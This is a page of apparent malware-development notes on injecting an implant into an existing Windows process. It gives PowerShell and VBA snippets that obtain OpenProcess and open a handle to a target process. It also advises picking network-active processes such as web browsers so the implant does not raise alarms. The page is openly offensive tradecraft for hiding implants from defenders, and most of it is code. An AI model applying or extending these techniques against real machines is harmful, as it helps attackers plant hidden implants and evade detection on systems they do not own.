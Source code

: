 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
  - implant-execution
  - process-injection
  - windows
---
```

# Inject Existing Process

## OpenProcess

> [!NOTE]
> `PROCESS_ALL_ACCESS` isn't required. Only `PROCESS_CREATE_PROCESS` is efficient.
> > [!TIP]
> > Only inject processes that connects to the internet such as, a **web browser** or any anything communicates through the network. Injecting the implant through a **text editor** for example, will raise the alarms due to lack of socket networks. However, when unexpected circumstances may occur then implement it as a last resort.

### PowerShell

```powershell
$Win32Functions = New-Object System.Object

$OpenProcessAddress = Get-ProcAddress kernel32.dll OpenProcess
$OpenProcessDelegate = Get-DelegateType @([UInt32], [Bool], [UInt32]) ([IntPtr])
$OpenProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($OpenProcessAddress, $OpenProcessDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name OpenProcess -Value $OpenProcess
```

### VBA

```vb
Const PROCESS_ALL_ACCESS = &H1F0FFF

Dim handle As LongPtr
Dim PID As Integer

PID = 4444
handle = OpenProcess(PROCESS_ALL_ACCESS, False, PID)
```

---
## References

### Tenouk

- [Tenouk: Processes and Threads - Win32 APIs - Part 6](https://www.tenouk.com/ModuleU.html)

- [Tenouk: Processes and Threads - Win32 APIs - Part 7](https://www.tenouk.com/ModuleU1.html)

- [Tenouk: Processes and Threads - Win32 APIs - Part 10](https://www.tenouk.com/ModuleU4.html)

### Github

- [Chvancooten: Process Injector](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Injector)
